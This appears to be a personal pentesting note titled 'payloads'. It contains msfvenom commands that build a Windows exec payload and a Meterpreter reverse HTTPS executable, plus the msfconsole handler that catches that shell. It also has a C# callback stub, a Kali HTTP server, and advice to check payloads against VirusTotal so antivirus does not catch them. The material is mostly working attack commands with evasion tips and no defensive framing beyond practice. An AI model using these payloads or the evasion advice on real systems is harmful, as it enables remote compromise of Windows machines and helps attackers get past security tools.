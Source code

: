 ```yaml
---
creation date: November 8th 2023
last modified date: November 8th 2023
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[payloads]]  
___

## Description:  

Use virus total to ensure that these payloads wont get caught by AV

Testing with ping:
```
msfvenom -f c -p windows/exec CMD="cmd.exe /C ping 192.168.0.135"

tcpdump icmp -n -i wlan0
```

.NET code for a a web request. This is good to test exploits without getting caught by AV. Needs to be compiled with visual studio or another compiler:

```
Raw C# code:

using System;
using System.Net.Http;
using System.Threading.Tasks;
 
class Program
{
    static async Task Main()
    {
        using (HttpClient httpClient = new HttpClient())
        {
            string url = "http://172.16.131.150/test";
            HttpResponseMessage response = await httpClient.GetAsync(url);
        }
    }
}


Run on Kali:
sudo python3 -m http.server 80
```


### Metasploit Reverse Shell

```
sudo msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_https; set EXITFUNC thread; set LHOST <IP>; set LPORT 443; exploit -j"

sudo msfvenom -p windows/meterpreter_reverse_https LHOST=<IP> LPORT=443 EXITFUNC=thread -f exe > test.exe
```


___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: November 8th 2023 (10:25 am)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
